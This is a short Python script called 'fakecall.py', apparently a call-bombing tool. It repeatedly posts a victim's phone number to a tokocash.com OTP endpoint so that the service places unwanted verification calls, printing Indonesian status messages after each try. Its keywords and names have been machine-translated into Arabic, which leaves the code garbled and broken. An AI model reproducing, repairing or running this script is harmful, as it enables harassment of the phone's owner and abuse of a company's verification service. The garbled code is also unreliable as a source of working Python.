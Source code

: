 # test
tesy
استيراد  النظم
 وقت الاستيراد
 طلبات الاستيراد

__banner__  =  "" "
\ 033 [1 ؛ 33 م ____ __ _____ ____ \ 033 [1 ؛ 37 م
\ 033 [1 ؛ 33 م / __ / __ _ / / _____ / ___ / __ _ / / / \ 033 [1 ؛ 37 م
\ 033 [1 ؛ 33 م / _ // _ `/ '_ / -_) / / __ / _` / / /   \ 033 [1 ؛ 37 م
\ 033 [1 ؛ 33 م / _ /   \\ _ ، _ / _ / \\ _ \\ \\ __ /   \\ ___ / \\ _ ، _ / _ / _ /    \ 033 [1 ؛ 37 م
مصنوع من <3 Azis_riaz (azisek_)
""

def  البريد العشوائي ():
	الخيارات = sys . ارغف [ 1 ]
	الهاتف = sys . ارغف [ 2 ]
	إذا كان  النظام . argv [ 1 ] ==  "-c" :
		طباعة  __راية__
		param  = { 'msisdn' : '' + sys . argv [ 2 ]، 'Accept' : 'call' }
		العد  =  0
		بينما ( العد  <  3 ):
			ص  =  الطلبات . نشر ( 'https://www.tokocash.com/oauth/otp' ، البيانات = بارام )
			إذا كان  "otp_attempt_left"  في  r . نص :
				طباعة ( " \ 033 [1؛ 32m [OK] Sukses Dikirim ... Tunggu 60 Detik ... \ 033 [0m" )
			آخر :
				طباعة ( " \ 033 [1؛ 31m [FAILED] Gagal Dikirim: (... Tunggu 60 Detik ... \ 033 [0m" )
			الوقت . النوم ( 60 )
			العد  =  العد  +  1
		طباعة ( " \ 033 [1؛ 36m [تم] الخروج ..." )
		sys . مخرج ( 1 )
	آخر :
		طباعة  __راية__
		طباعة  "Usage: fakecall.py -c PHONE"
		طباعة  "fakecall.py: خطأ: يتطلب خيار٪ s وسيطة"  خيارات ٪
		sys . خروج ()

إذا  __name__  ==  '__main__' :
	إذا كان  len ( sys . argv ) ! =  3 :
		طباعة  __راية__
		طباعة  "Usage: fakecall.py -c PHONE"
		sys . خروج ( 0 )
	آخر :
		البريد العشوائي ()

